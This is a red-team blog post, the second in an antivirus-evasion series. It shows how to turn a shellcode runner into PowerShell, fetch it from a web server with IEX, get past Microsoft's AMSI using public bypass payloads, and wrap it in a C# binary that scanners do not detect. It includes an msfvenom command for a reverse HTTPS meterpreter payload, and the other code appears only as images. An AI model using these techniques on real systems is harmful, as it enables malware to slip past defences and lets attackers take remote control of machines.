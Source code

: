 ```yaml
---
layout: post
title: 'AV Evasion Part 2, The disk is lava'
category: evasion
---
```


Welcome back to the blog!  

If you haven't read part 1 of the AV Evasion series, you can find it [here](https://0xhop.github.io/evasion/2021/04/19/evasion-pt1/).
The plan for this post is to show ways to beat signature detection and some AMSI bypasses to reach a low detection rate.  If that sounds interesting, let's Hop to it.

The beautiful thing about .NET is how portable it is.  Microsoft is really good about integration throughout their entire ecosystem.  This also gives attackers more attack surface to take advantage of.  An example of this is transforming our original payload to PowerShell.

We can import kernel32.dll from our original payload by importing it as a type as shown below.
<img src="images/evasion2/AddType.PNG">

With Kernel32.dll loaded in our PowerShell runspace, we are free to invoke our shellcode runner.  If the following functions do not make sense, I urge you to reread part 1 for a deeper explanation of VirtualAlloc,WaitForSingleObject, and CreateThread.  Sample code is shown below.  A clever reader will notice we are missing our fancy Array.Reverse() method.  We have another nifty bypass and its not needed.  Stay tuned to find out why.
<img src="images/evasion2/PSCalls.PNG">

Finally, we can create new shellcode with <code> msfvenom -p windows/x64/meterpreter/reverse_https lhost=eth0 lport=443 -f ps1 </code> and paste it above our $size variable.

Let's test our PowerShell Shellcode runner by invoking it with IEX over http traffic.  I have named the powershell script `local.txt` and have added it to `/var/www/html/` webroot in Kali.  Let's pull it with System.Net.Webclient and invoke with IEX
<img src="images/evasion2/foiled.PNG">

Drats!!!!

it appears AMSI picked up our script.  To continue, we will need to understand how AMSI operates.

AMSI, or AntiMalware Scan Interface, is a newish Antivirus technology from Microsoft that scans for malicious activity in memory.  At the time of writing this, AMSI is integrated into PowerShell, WScript, CScript, and DotNet executables.  I plan on doing a deeper dive discussion on 'patching' in a future post, so we won't get super in depth with this yet.  At a high level, once PowerShell is invoked, amsi.dll is injected into the process and executed.  AMSI_Scan_Buffer is then used to scan for malicious activity.  Because of the way AMSI is currently implemented, the namespace can also patch back into it.  Matt Graber wrote the original AMSI bypass for patching the Scan Buffer function to all return clean [here](https://twitter.com/mattifestation/status/735261176745988096?lang=en).
This has been 'fixed' by Microsoft by adding that as a known malicious signature.  As we saw in part 1, signature detection isn't very good and can be bypassed fairly easily.  The site [amsi.fail](https://amsi.fail) was setup to create amsi bypasses.  We can easily pull down a payload and get around AMSI to allow our script to run.  We will need to keep trying payloads in PowerShell until one works as intended.

<img src="images/evasion2/screwAMSI.PNG">

We now have a functioning AMSI bypass, with that in place.  We can run our ShellCode Runner as intended.  Make sure to Enable Stage Encoding in MSF or it will get flagged by AV after dropping the second stage meterpreter shell.

<img src="images/evasion2/meterpreter1.PNG">

Back to C#

Microsoft really loves integration, so it makes sense that we can invoke PowerShell within our C# app. A quick google search fetches us [the official MS doc on how to invoke Powershell in C#](https://docs.microsoft.com/en-us/powershell/scripting/developer/hosting/adding-and-invoking-commands?view=powershell-7.1).  Let's create a new C# project and add the exact commands listed in the documentation.  For this to work, a Reference will need added to Visual Studio with the dll path at c:\Windows\assembly\GAC_MSIL\System.Management.Automation\...
<img src="images/evasion2/powershellPath.PNG">

The full code can be seen below for our new PowerShell invoking binary.  I like to use [Raika's Hub](https://raikia.com/tool-powershell-encoder/) to encode our required PowerShell commands to one line for ease of execution.
<img src="images/evasion2/raika.PNG">
<img src="images/evasion2/fullCode.PNG">

Let's build and test our new application against [AntiScan.me](https://antiscan.me/scan/new/result?id=0PLTyYg8ovg0)
<img src="images/evasion2/CodeResult.PNG">
0/26 detections.  This is due to our small application calling other methods outside of the binary and pulling the values straight into memory.  We have erased all malicious signatures from the binary.  Since we stripped AMSI from the binary as well, in-memory protections have decreased as well.  Let's execute the payload on our client to test the result in real time.

<img src="images/evasion2/finalmeter.PNG">

We indeed get a working shell.  

This includes AV Evasion Part 2. Share the post if you liked it and I Hop to see everyone next time.
